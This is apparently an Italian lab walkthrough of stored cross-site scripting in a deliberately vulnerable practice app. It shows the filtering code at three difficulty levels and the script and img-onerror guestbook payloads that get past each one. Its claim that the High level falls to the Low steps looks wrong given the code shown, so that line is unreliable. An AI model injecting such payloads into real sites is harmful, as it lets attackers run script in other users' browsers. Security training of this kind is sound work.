 ## XSS (Stored)

- https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
- https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
- https://en.wikipedia.org/wiki/Cross-site_scripting
- http://www.cgisecurity.com/xss-faq.html
- http://www.scriptalert1.com/

Lo script malevolo viene memorizzato sul server obiettivo.
Ogni volta che un utente visita la relativa pagina, riceve il codice e questo viene eseguito sul browser.

## XSS (Stored) - Low

```
// Sanitize message input
$message = stripslashes( $message ); 
```

stripslashes — Un-quotes a quoted string

Exploit:

- `Name *`: `Mallory`
- `Message *`: `Here I am! <script>alert('hacked')</script>`
- `Sign Guestbook`

## XSS (Stored) - Medium

```
// Sanitize message input
$message = strip_tags( addslashes( $message ) ); 

...

// Sanitize name input
$name = str_replace( '<script>', '', $name ); 
```

strip_tags — Strip HTML and PHP tags from a string  
addslashes — Quote string with slashes

Exploit:

- nell'html elimina l'attributo `maxlength` per il tag `<input name="txtName">`
- `Name *`: `Mallory <img src="" style="display:none" onerror=alert('hacked')>`
- `Message *`: `Here I am again!`
- `Sign Guestbook`

## XSS (Stored) - High

```
// Sanitize message input
$message = strip_tags( addslashes( $message ) );

...

// Sanitize name input
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
```

Exploit: stessi passi del livello Low

